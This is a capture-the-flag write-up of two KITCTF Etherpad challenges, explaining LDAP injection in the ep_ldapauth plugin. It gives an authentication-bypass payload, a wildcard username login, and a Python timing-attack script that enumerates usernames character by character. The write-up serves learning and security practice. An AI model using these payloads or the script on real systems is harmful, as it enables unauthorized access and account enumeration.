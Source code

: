 ```yaml
---
layout: post
current: post
cover: assets/kitctf/etherpad/cover.webp
navigation: True
title: "Etherpad 1 & 2"
date: 2023-01-02 10:00:00
tags: [KITCTFCTF, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


LDAP me up, bro.

## Etherpad Part 1
We are given a link to an Etherpad instance and the password for an account. However, we are told that the username is unknown.

We are also told that the server is running Etherpad 1.8.18 with [ep_ldapauth 0.4.0](https://github.com/tykeal/ep_ldapauth/tree/42cd54c8f65ebb4b4c061b682be2acaf5486e0bc). Finally, we are given a JSON file titled "settings." This contained the LDAP auth settings. I looked into them, but didn't find anything worthwhile - pretty standard stuff.

### LDAP?

Let's talk about LDAP authentication. LDAP, or Lightweight Directory Access Protocol, is a "mature, flexible, and well supported standards-based mechanism for interacting with directory servers," according to [ldap.com](https://ldap.com). Generally, it is used to store hierarchical data about users, groups, and applications. Directory servers, notably, store trees of entries and are therefore NoSQL databases. Each LDAP entry has three primary components: a name (uniquely identifies entry and its position on the directory information tree hierarchy - similar to a file path), a collection of attributes, and a collection of object classes.

This is cool and all, but can we exploit it in some way?

### Putting the L in LDAP, amiright? Please laugh.

That's right baby, LDAP injection exists. And it's pretty straightforward, too - check out [this article](https://brightsec.com/blog/ldap-injection/) on LDAP injection in its many forms. It works just the same as SQL injection, but takes into account the LDAP protocol structure. For example, the statement ```(&(USER=Uname)(PASSWORD=Pwd))``` is often used in authentication. The ```&``` symbol checks to make sure both of the following statements are true; ie, both ```USER=Uname``` and ```PASSWORD=Pwd```. So, let's just say we need to log into the account with the username `kit`, but we do not know the password. We can input ```kit)(&)```, and the full query will become ```(&(USER=kit)(&))(PASSWORD=Pwd))```. This will only compare ```USER=kit``` and ```&```, which is the ```TRUE``` filter in the LDAP protocol. Therefore, the result will be true and the user will gain access without the password.

### The Solve
That's great and all, but in our case, we have the password, but we do not have the username. So, I started playing around with what I learned. An important filter in LDAP is ```*```. Similarly to SQL, it is the "all" filter. So, I tried inputting * as the username. Lo and behold, it worked! The flag was at the bottom of the page: 

```KCTF{nobody_escapes_ldap_filters}```

That got 16 solves. Come on, people.

## Etherpad Part 2

Alright, this is where it gets interesting. For this one, we know that the username is identical to the password for every account. Unfortunately, we do not know either. We do know that the username/password begins with "kctf{" and, using our amazing deductive skills, probably ends with "}". We also know that the flag format is ```kctf\{[a-z0-9{}_.]*\}```. 

### My Attempt
I should clarify - I did not figure this one out. I tried for ages to find the correct LDAP injection to crack this puzzle. I tried ```kctf\{*\}``` for the username, as it would get every entry of form "kctf{...}". I tried ```{{username}}``` for the password. I tried some tricky stuff with ANDs and ORs that were based on the attacks mentioned in the article above. Nothing seemed to work. But did I give up? Yes. After a few hours of scouring the internet, reading the ```settings.json``` file, and searching for version-specific exploits, I opted to take a nap rather than torment myself further. I am nothing if not a quitter.

### The Solution
The great news is I was not even close. The solution was not in LDAP injection at all - in fact, it was a TIMING ATTACK! So cool! Such a fan of that. Wow. You will notice that if you input a random word into the username field of the authentication, it takes around 1.8 seconds for a response. However, if you type in something that finds users, for example ```kctf\{*```, it will take upwards of 2.3 seconds for a response to be returned. We can use this to create a bruteforce attack:
* Cycle through all of the possible characters
* For each character char, test signing in with ```previous_username + char + *```
* If the response takes longer than 2.3 seconds, append this character to previous_username and try again
* Keep going until the character "}" is appended
It is important to note that we can automate this by testing usernames with the URL ```http://USERNAME:x@etherpad2.kitctf.me:9002/```. This will attempt to sign in with username ```USERNAME``` and will have the correct timing properties.

Here is the code for the correct solution, written by @eta#0667 on Discord.
```py
#!/usr/bin/env python3
import requests, time

# Possible characters in the username
character_list = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '\.', '_', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '\{', '\}']

# If the user exists, request will take longer than this many seconds
threshhold=2.3

flag = "kctf\{"
while True:
    for x in character_list:
        flag_try = flag+x
        response = requests.get("http://"+flag_try+"*:x@etherpad2.kitctf.me:9002/")
        elapsed = response.elapsed.total_seconds()
        print(f"{flag_try}:{response.status_code}:{elapsed}")
        if elapsed > threshhold:
            print(f"Found {flag_try}")
            flag = flag_try
            break
```
After a decent chunk of time this thing gave me the solution: kctf{user_enumer4t1on_zer0day}.

## Conclusion
I found these two challenges to be incredibly interesting simply because I had no prior experience with LDAP authentication. The first one was fun because I got to do a deep dive in LDAP injection, and then find out the solution required maybe 2 minutes of research. The second had a really cool solution, although I'm not sure I would have ever guessed a timing attack. Plus, I have the worst WiFi known to man so getting the timing attack to run correctly for, like, thirty minutes was a struggle. That's on me though. I had fun with these challenges and learned a lot!